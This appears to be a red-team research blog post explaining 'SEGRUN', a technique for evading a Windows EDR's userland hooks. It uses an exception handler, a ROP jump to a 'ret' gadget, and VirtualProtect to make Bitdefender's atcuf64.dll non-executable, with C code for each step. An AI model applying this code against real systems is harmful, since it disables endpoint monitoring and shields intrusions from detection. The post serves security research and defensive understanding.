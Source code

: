 ```yaml
---
layout: post
title: "SEGRUN: Userland unhooking abusing exception handlers"
categories: research
tags: redteam
date: 2024-11-26 19:49:00 +0100
author: ikerl
---
```


Inspired by the DEFCON 31 talk in Las Vegas, delivered by Carlos Polop and Yago, I decided to explore a concept from their presentation to develop a new technique. This method, largely unfamiliar to me before, enables patching function hooks at the userland level used by AV/EDR systems, helping to evade detection by endpoint protection solutions.

## The Inspiration

The original DEFCON talk, [Exploring Linux Memory Manipulation for Stealth and Evasion](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Carlos%20Polop%20Yago%20Gutierrez%20-%20Exploring%20Linux%20Memory%20Manipulation%20for%20Stealth%20and%20Evasion%20Strategies%20to%20bypass%20Read-Only%20No-Exec%20and%20Distroless%20Environments.pdf), introduced an innovative technique for code execution in distroless environments, where everything typically runs in read-only mode and code execution is restricted. The talk showcased the [memdlopen](https://github.com/arget13/memdlopen) tool, which uses Linux signal handlers to intercept functions called by `dlopen`, enabling libraries to be loaded directly from memory instead of disk.

## The Idea

As a red team operator, I came up with the idea of using a similar `memdlopen` approach to unhook EDR trampolines in userland. While I cannot confirm if this technique is entirely new, I had not encountered it before.

EDRs commonly load a monitoring DLL into the processes they analyze. These DLLs modify system DLLs in memory, inserting trampolines that intercept calls to specific Windows API functions before execution. The trampolines redirect the execution flow of these monitored API functions to the EDR DLL, granting security systems deep visibility and control over program execution. By patching these trampolines, an attacker can bypass the EDR’s monitoring mechanisms, significantly complicating the detection and analysis of the targeted process.

Inspired by the `memdlopen` concept of using handlers to intercept exceptions, I developed a novel technique to evade userland hooks in Windows environments. This approach involves defining an exception handler and corrupting the EDR DLL to trigger controllable exceptions whenever the program accesses the monitoring code in that DLL.

## PoC

In this section, we list the steps required to apply this technique in detail.

### Defining the Exception Handler

The core of this method involves setting up an exception handler to manage all exceptions triggered during execution. When an exception occurs, the handler performs the following actions:

1. ROP to the `ret` function: The handler redirects the flow to a function that executes a simple `ret` instruction. This causes the program to return to the address where the exception was triggered, but with the instruction pointer (rip) incremented by one.

2. Resuming Execution: By performing this ROP, the program bypasses the exception and continues execution as if the interruption had not occurred, allowing the program to pass through the non-executable memory region (the EDR DLL) without actually executing any of its code.

This technique ensures that the EDR's monitoring hooks are bypassed while the normal operation of the target process continues without disruption.

Here is the implementation of the exception handler designed to manage exceptions that occur when the program attempts to execute memory mappings from the EDR DLL:

```c
LONG WINAPI TopLevelExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo)
{
    DWORD_PTR ret_address = searchRetGadget(ret);
    if (ret_address == NULL)
    {
        exit(1);
    }

    DWORD exceptionCode = pExceptionInfo->ExceptionRecord->ExceptionCode;

    switch (exceptionCode) {
    case EXCEPTION_ACCESS_VIOLATION:
        printf("Access Violation Exception\n");
        break;
    case EXCEPTION_BREAKPOINT:
        printf("Breakpoint Exception\n");
        break;
    case EXCEPTION_INVALID_HANDLE:
        printf( "Invalid Handle Exception\n");
        break;
    default:
        printf("Unknown Exception\n");
        break;
    }

    CONTEXT* context = pExceptionInfo->ContextRecord;
    printf("Exception at: 0x%p\n", (void*)context->Rip);
    context->Rip = ret_address;
    SetThreadContext(GetCurrentThread(),context);
    return EXCEPTION_CONTINUE_EXECUTION;
}
```

### "ret" function definition

When an exception is handled, the exception handler performs a ROP to the `ret` function. This function executes the ret instruction in assembly, causing the program to return to the address where the exception occurred.

By doing this, the program traverses the memory section of the EDR DLL without ever executing any of its instructions. This ensures that the EDR’s monitoring code is effectively bypassed without interrupting the program's flow.

Below are the functions: one that performs the `ret` operation and another that searches memory for this function to execute the ROP after each exception is handled:

```c
void ret()
{
    return;
}

DWORD_PTR searchRetGadget(void (*func)()) {
    unsigned char* ptr = (unsigned char*)func;
    size_t len = 128;

    for (size_t i = 0; i < len; ++i)
    {
        if (ptr[i] == 0xc3) return (DWORD_PTR)&ptr[i];
    }

    return NULL;
}
```

### Corrupting the EDR DLL

With the exception handler implemented, the next step is to corrupt the EDR DLL. This ensures that whenever the program encounters a trampoline and execution is redirected to the EDR’s function analyzer, a segmentation fault (segfault) is triggered.

There are several ways to achieve this:

- Modify memory permissions: Change the permissions of the memory where the EDR DLL is loaded.
- Overwrite memory contents: Configure the DLL’s memory as writable and use any function capable of overwriting that region with null bytes.

In my case, I used `VirtualProtect` to mark the EDR DLL’s memory region as non-executable. The tests were conducted using the `atcuf64.dll` DLL from Bitdefender:

```c
    SetUnhandledExceptionFilter(TopLevelExceptionHandler);

    HMODULE hmodule = GetModuleHandleA("atcuf64.dll"); 
    printf("Module => %p\n", hmodule);
    DWORD textSize = NULL;
    HMODULE textAddress = NULL;
    if (hmodule != NULL)
    {
        
        IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)hmodule;
        IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)((BYTE*)hmodule + dosHeader->e_lfanew);

        IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);
        for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; ++i) {
            //printf("%s\n", sectionHeader[i].Name);
            if (strcmp((char*)sectionHeader[i].Name, ".text") == 0) {
                textAddress = hmodule +sectionHeader[i].VirtualAddress;
                textSize = sectionHeader[i].SizeOfRawData;
                printf(".text => 0x%p, size => %d\n", textAddress,textSize);
                break;
            }
        }
        
    }
    else {
        printf("modulehandle error\n");
        return -1;
    }

    if (!textAddress) {
        printf("Error calculating .text section\n");
        return -1;
    }
    
    DWORD old;
    VirtualProtect_t pVirtualProtect = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), (char*)"VirtualProtect");
    BOOL rv = pVirtualProtect(textAddress, (unsigned int)textSize - 1024 * 246, PAGE_READONLY, &old);
```

### How the Technique Works

At this stage, we have all the components needed to apply the technique and execute functions hooked by the EDR without the EDR detecting it.

Here’s how the program operates once the exception handler is set up, the EDR DLL’s memory is corrupted, and the necessary functions to perform the ROP to the `ret` gadget are implemented:

![](segrun1.png)

1. Hooked Function Execution: When a hooked function is called, the trampoline executes, redirecting the execution flow to the EDR DLL:

![](segrun2.png)

2. Triggered Exception: An exception is raised as this memory region is marked as non-executable:

![](segrun3.png)

3. Exception Handling and ROP: The exception handler manages the exception and performs the necessary ROP to the ret gadget. This process is repeated as many times as needed until the program successfully completes the call to the hooked function.

![](segrun4.png)

By leveraging this workflow, the technique ensures that the hooked function executes successfully without alerting the EDR or triggering its monitoring mechanisms. The complete PoC project can be found at the following link: https://github.com/ikerl/segrun
